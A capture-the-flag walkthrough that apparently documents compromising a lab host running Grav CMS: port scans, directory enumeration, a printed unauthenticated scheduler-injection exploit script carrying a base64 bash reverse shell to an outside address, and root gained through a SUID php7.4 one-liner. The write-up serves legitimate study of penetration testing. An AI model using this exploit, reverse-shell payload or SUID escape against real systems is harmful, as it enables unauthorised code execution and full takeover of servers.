



Writeup by wook413

[TOC]

# Recon

## Nmap

As always, I began by performing three Nmap scans. The first scan covered all 65,535 TCP ports, while the second was a targeted service scan of the discovered open ports. The final scan focused on the top 10 UDP ports.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-26 01:20 UTC
Nmap scan report for 192.168.240.12
Host is up (0.053s latency).
Not shown: 65526 closed tcp ports (reset), 7 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 17.24 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 22,80                 
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-26 01:22 UTC
Nmap scan report for 192.168.240.12
Host is up (0.049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 8.86 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-26 01:23 UTC
Nmap scan report for 192.168.240.12
Host is up (0.047s latency).

PORT     STATE         SERVICE
53/udp   closed        domain
67/udp   closed        dhcps
123/udp  open|filtered ntp
135/udp  closed        msrpc
137/udp  closed        netbios-ns
138/udp  closed        netbios-dgm
161/udp  open|filtered snmp
445/udp  closed        microsoft-ds
631/udp  closed        ipp
1434/udp closed        ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 6.41 seconds
```

# Initial Access

## HTTP 80

The structure of the web page on port 80 was somewhat unusual. It appeared to be missing an `index.html` file in the web root, as it displayed a directory listing containing only a single directory named `grav-admin` .

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=http-enum -p 80   
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-26 01:24 UTC
Nmap scan report for 192.168.240.12
Host is up (0.084s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-enum: 
|_  /: Root directory w/ listing on 'apache/2.4.41 (ubuntu)'
Service Info: Host: 127.0.0.1

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 15.20 seconds
```



Navigating to `/grav-admin` revealed the **Grav CMS** introduction page.



I performed directory bursting using `Gobuster` and checked `/robots.txt` to enumerate any meaningful files or directories.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u <http://$IP/grav-admin> -w /usr/share/seclists/Discovery/Web-Content/common.txt                               
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <http://192.168.240.12/grav-admin>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.git/logs/           (Status: 302) [Size: 0] [--> <http://192.168.240.12/grav-admin/.git/logs>]
/.hta                 (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/admin                (Status: 200) [Size: 15508]
/assets               (Status: 301) [Size: 328] [--> <http://192.168.240.12/grav-admin/assets/>]
/backup               (Status: 301) [Size: 328] [--> <http://192.168.240.12/grav-admin/backup/>]
/bin                  (Status: 301) [Size: 325] [--> <http://192.168.240.12/grav-admin/bin/>]
/cache                (Status: 301) [Size: 327] [--> <http://192.168.240.12/grav-admin/cache/>]
/cgi-bin/             (Status: 302) [Size: 0] [--> <http://192.168.240.12/grav-admin/cgi-bin>]
/forgot_password      (Status: 200) [Size: 12383]
/home                 (Status: 200) [Size: 14014]
/images               (Status: 301) [Size: 328] [--> <http://192.168.240.12/grav-admin/images/>]
/login                (Status: 200) [Size: 13967]
/logs                 (Status: 301) [Size: 326] [--> <http://192.168.240.12/grav-admin/logs/>]
/robots.txt           (Status: 200) [Size: 274]
/system               (Status: 301) [Size: 328] [--> <http://192.168.240.12/grav-admin/system/>]
/tmp                  (Status: 301) [Size: 325] [--> <http://192.168.240.12/grav-admin/tmp/>]
/user                 (Status: 301) [Size: 326] [--> <http://192.168.240.12/grav-admin/user/>]
/vendor               (Status: 301) [Size: 328] [--> <http://192.168.240.12/grav-admin/vendor/>]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
/robots.txt
User-agent: *
Disallow: /backup/
Disallow: /bin/
Disallow: /cache/
Disallow: /grav/
Disallow: /logs/
Disallow: /system/
Disallow: /vendor/
Disallow: /user/
Allow: /user/pages/
Allow: /user/themes/
Allow: /user/images/
Allow: /
Allow: *.css$
Allow: *.js$
Allow: /system/*.js$
```

I searched for ‘**Grav CMS’** in `Searchsploit` , which returned several exploits. Since I hadn’t obtained any credentials yet, I opted for an unauthenticated exploit: **Arbitrary YAML Write/Update.**

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit grav cms  
-------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                          |  Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
Grav CMS 1.4.2 Admin Plugin - Cross-Site Scripting                                                      | php/webapps/42131.txt
Grav CMS 1.6.30 Admin Plugin 1.9.18 - 'Page Title' Persistent Cross-Site Scripting                      | php/webapps/49264.txt
Grav CMS 1.7.10 - Server-Side Template Injection (SSTI) (Authenticated)                                 | php/webapps/49961.py
GravCMS 1.10.7 - Arbitrary YAML Write/Update (Unauthenticated) (2)                                      | php/webapps/49973.py
GravCMS 1.10.7 - Unauthenticated Arbitrary File Write (Metasploit)                                      | php/webapps/49788.rb
gravy media CMS 1.07 - Multiple Vulnerabilities                                                         | php/webapps/8315.txt
-------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Analyzing the code, I found it leads to a reverse shell. Note that `/grav-admin` must be appended to the target IP address for the exploit to work.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ cat 49973.py  
# Exploit Title: GravCMS 1.10.7 - Arbitrary YAML Write/Update (Unauthenticated) (2)
# Original Exploit Author: Mehmet Ince
# Vendor Homepage: <https://getgrav.org>
# Version: 1.10.7
# Tested on: Debian 10
# Author: legend

#/usr/bin/python3

import requests
import sys
import re
import base64
target= "<http://192.168.240.12/grav-admin>"
#Change base64 encoded value with with below command.
#echo -ne "bash -i >& /dev/tcp/192.168.1.3/4444 0>&1" | base64 -w0
payload=b"""/*<?php /**/
file_put_contents('/tmp/rev.sh',base64_decode('YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIzNi80NDMgMD4mMQ=='));chmod('/tmp/rev.sh',0755);system('bash /tmp/rev.sh');
"""
s = requests.Session()
r = s.get(target+"/admin")
adminNonce = re.search(r'admin-nonce" value="(.*)"',r.text).group(1)
if adminNonce != "" :
    url = target + "/admin/tools/scheduler"
    data = "admin-nonce="+adminNonce
    data +='&task=SaveDefault&data%5bcustom_jobs%5d%5bncefs%5d%5bcommand%5d=/usr/bin/php&data%5bcustom_jobs%5d%5bncefs%5d%5bargs%5d=-r%20eval%28base64_decode%28%22'+base64.b64encode(payload).decode('utf-8')+'%22%29%29%3b&data%5bcustom_jobs%5d%5bncefs%5d%5bat%5d=%2a%20%2a%20%2a%20%2a%20%2a&data%5bcustom_jobs%5d%5bncefs%5d%5boutput%5d=&data%5bstatus%5d%5bncefs%5d=enabled&data%5bcustom_jobs%5d%5bncefs%5d%5boutput_mode%5d=append'
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    r = s.post(target+"/admin/config/scheduler",data=data,headers=headers)
```

# Shell as `www-data`



# Privilege Escalation

After gaining the initial access, I explored the system and discovered a cronjob. This job was executing Grav's scheduler feature via the PHP binary.

```bash
www-data@gravity:~/html/grav-admin$ crontab -l
* * * * * cd /var/www/html/grav-admin;/usr/bin/php bin/grav scheduler 1>> /dev/null 2>&1
```

While the cronjob didn’t directly lead to privilege escalation, a search for SUID binaries revealed that **php7.4** had the SUID bit set.

```bash
www-data@gravity:/etc/cron.d$ find / -type f -perm -4000 -ls 2>/dev/null
    ...
    53120   4676 -rwsr-xr-x   1 root     root             4786104 Feb 23  2023 /usr/bin/php7.4
	  ...
```

# Shell as `root`

Leveraging `GTFOBins`, I executed the following command to exploit the binary and obtain a root shell.

```bash
www-data@gravity:/$ php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
# whoami
root
# ls -la
total 40
drwx------  6 root root 4096 Jan 26 01:17 .
drwxr-xr-x 19 root root 4096 Mar 29  2023 ..
lrwxrwxrwx  1 root root    9 Mar 29  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Apr  3  2023 .cache
-rw-------  1 root root    9 Apr  3  2023 flag1.txt
drwxr-xr-x  3 root root 4096 Mar 29  2023 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rwx------  1 root root   33 Jan 26 01:17 proof.txt
drwx------  3 root root 4096 Jan 24  2023 snap
drwx------  2 root root 4096 Jan 24  2023 .ssh
# cat proof.txt
ae2...
```